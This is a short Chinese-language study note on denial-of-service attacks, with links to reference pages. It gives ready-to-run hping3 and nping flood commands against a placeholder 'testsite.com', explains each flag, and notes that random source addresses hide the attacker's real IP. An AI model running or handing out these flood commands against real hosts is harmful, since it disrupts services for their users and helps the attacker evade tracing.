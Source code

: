 # DOS vs DDoS

https://zh.wikipedia.org/wiki/阻斷服務攻擊

# DDoS即時攻擊分佈圖
```
http://www.digitalattackmap.com
```

# 使用hping3/nping施行DoS攻擊

http://topspeedsnail.com/user-nping-hping3-dos/

使用hping3進行DoS攻擊： hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testsite.com

```
-c：發送資料包的個數
-d：每個資料包的大小
-S：發送SYN資料包
-w：TCP window大小
-p：目標埠，你可以指定任意埠
–flood：盡可能快的發送資料包
–rand-source：使用隨機的IP位址，目的機器看到一堆ip，不能定位你的實際IP；也可以使用-a或–spoof隱藏主機名稱 
```

簡單的SYN洪水攻擊：hping3 -S --flood -V testsite.com

TCP連接攻擊：nping --tcp-connect -rate=90000 -c 900000 -q testsite.com

# DOS 類型:

Application layer DDoS attack (sometimes referred to as layer 7 DDoS attack)

HTTP-DOS

XML-DOS: https://en.wikipedia.org/wiki/XML_denial-of-service_attack

http://citeseerx.ist.psu.edu/viewdoc/download?doi=10.1.1.402.7253&rep=rep1&type=pdf

